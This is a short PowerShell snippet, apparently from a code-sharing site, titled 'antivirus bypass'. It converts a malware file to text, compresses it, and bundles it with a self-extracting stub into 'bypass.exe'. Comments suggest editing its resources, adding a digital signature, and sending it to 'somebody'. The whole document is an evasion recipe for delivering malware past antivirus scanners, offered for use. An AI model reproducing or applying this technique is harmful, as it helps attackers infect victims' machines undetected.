 ﻿---
pid:            4951
poster:         greg zakharov
title:          antivirus bypass
date:           2014-03-02 15:52:24
format:         posh
parent:         0
parent:         0

---

# antivirus bypass

### [download](4951.ps1)



```posh
[String]::Join(' ', [IO.File]::ReadAllBytes(#malware)) | Out-File -enc ASCII raw
&7za a -mx9 raw.zip raw
&cmd copy /b raw.zip + ZipSFX + ReverseActions bypass.exe
#optional:
#1) edit bypass.exe with resource editor
#2) add digital signature
#at last do not forget send it somebody
```
